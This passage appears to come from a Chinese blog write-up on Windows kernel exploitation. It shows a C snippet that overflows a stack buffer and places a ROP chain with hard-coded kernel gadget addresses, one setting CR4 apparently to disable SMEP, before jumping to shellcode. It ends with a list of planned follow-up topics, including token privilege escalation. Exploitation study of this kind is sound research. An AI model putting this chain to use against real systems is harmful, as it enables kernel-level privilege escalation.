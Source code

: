 ```plain
unsigned int size = 0x840;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)0xfffff807743f52c0;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)0xfffff807749a41cf;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
    printf("[*] Start set ROP\n");
```

没有下断点直接过

[![](assets/1706090591-2616c18af09988e676759f56b52ae285.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131429-1e64b778-b8e5-1.png)

[![](assets/1706090591-41583bf66e8dd69051654a4cbd1019d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131439-2487b2cc-b8e5-1.png)

# 遗留

下一篇

-   user 编程寻找 ROPGadget
-   shellcode 编写
-   Token 提权
-   KVAS
